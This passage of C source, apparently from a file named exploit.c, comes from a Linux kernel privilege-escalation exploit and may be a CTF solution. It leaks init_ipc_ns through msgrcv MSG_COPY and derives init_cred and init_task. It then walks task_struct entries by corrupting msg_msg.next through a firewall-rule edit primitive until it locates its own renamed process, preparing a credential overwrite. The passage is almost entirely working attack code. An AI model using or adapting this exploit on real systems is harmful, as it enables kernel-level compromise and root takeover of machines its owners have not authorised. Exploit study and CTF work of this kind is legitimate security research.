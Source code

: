 ```exploit.c
  puts("[+] receiving msg...");
  assert(qid >= 0 && PAGE >= 0);
  memset(buf_big, 0, PAGE * 3);
  ulong tmp;
  if ((tmp = msgrcv(qid, buf_big, PAGE * 2, 0, MSG_COPY | IPC_NOWAIT | MSG_NOERROR)) <= 0) { // SEARCH_ANY
    errExit("msgrcv");
  }
  printf("[+] received 0x%lx size of msg.\n", tmp);
  //print_curious(buf_big + DATALEN_MSG, 0x300, 0);
  const ulong init_ipc_ns = *(ulong*)(buf_big + DATALEN_MSG + 0x5 * 8);
  const ulong init_cred = diff_init_cred_ipc_ns + init_ipc_ns;
  const ulong init_task = diff_init_task_ipc_ns + init_ipc_ns;
  if (init_ipc_ns == 0) { puts("[+] failed to leak init_ipc_ns."); exit(1);};
  printf("[!] init_ipc_ns: 0x%lx\n", init_ipc_ns);
  printf("[!] init_cred: 0x%lx\n", init_cred);
  printf("[!] init_task: 0x%lx\n", init_task);

  // task walk
  puts("[+] starting task_struct walking...");
  char *new_name = "NirugiriSummer";
  assert(strlen(new_name) < 0x10);
  assert(prctl(PR_SET_NAME, new_name) != -1);
  #define TASK_WALK_LIM 0x20
  ulong searching_task = init_task - 8;
  rep(ix, TASK_WALK_LIM) {
    if (target_task != 0) break;
    printf("[.] target addr: 0x%lx: ", searching_task);
    // overwrite `msg_msg.next`
    memset(buf_iface, 0, 0x10); // m_list
    ((long*)buf_name)[0] = 1; // m_type
    ((long*)buf_name)[1] = TASK_OVERBUFSZ; // m_ts
    strcpy(buf_ip, ntop(searching_task)); // next & 0xFFFFFFFF
    strcpy(buf_netmask, ntop(searching_task>> 32)); // next & (0xFFFFFFFF << 32)
    edit_rule(buf_iface, buf_name, 0, OUTBOUND, buf_ip, buf_netmask, 0);

    // leak `task_struct.comm`
    memset(buf_big, 0, PAGE * 2);
    if ((tmp = msgrcv(qid, buf_big, PAGE * 2, 0, MSG_COPY | IPC_NOWAIT | MSG_NOERROR)) <= 0) { // SEARCH_ANY
      errExit("msgrcv");
    }
    if (strncmp(buf_big + (DATALEN_MSG + 8) + COMM_OFFSET, new_name, 0x10)) {
      printf("Not exploit task (name: %s)\n", (buf_big + (DATALEN_MSG + 8) + COMM_OFFSET));
      //print_curious(buf_big + (DATALEN_MSG + 8), 0x500, 0);
      searching_task = *(ulong*)(buf_big + (DATALEN_MSG + 8) + TASKS_PREV_OFFSET) - TASKS_NEXT_OFFSET - 8;
    } else {
      puts(": FOUND!");
      target_task = searching_task + 8;
      break;
    }
  }
  if (target_task == 0) {
    puts("[-] failed to find target task...");
    return 1;
  }
  printf("[!] current task @ 0x%lx\n", target_task);

  /***********************************************/

  // heap cleaning
  puts("[.] cleaning heap...");
```